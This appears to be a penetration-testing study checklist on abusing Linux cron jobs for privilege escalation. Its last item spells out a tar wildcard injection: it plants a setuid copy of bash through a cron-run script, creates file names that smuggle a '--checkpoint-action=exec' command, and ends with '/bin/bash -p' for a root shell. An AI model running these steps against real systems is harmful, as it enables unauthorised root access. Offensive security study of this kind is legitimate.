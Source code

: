 # Abusing Cronjobs

### Checklist

- [ ] Can you reconise the cron job in linpeas output? YES, then its probably unlikely; NO, then you probably have a vector.
- [ ] Is the cron job writable? maybe add a custom cronjob
- [ ] Is the command in the cron job pointing to a writable file/directory? maybe exit the target file/dir
- [ ] Does the command contain a wildcard? `*`? follow these commands: [guide](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)
      - `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /<path called by cron job>/shell.sh`
      - `echo "" > "--checkpoint-action=exec=sh shell.sh"`
      - `echo "" > --checkpoint=1`
      - once the cron has run (every incriment of time)
      - `/bin/bash -p`
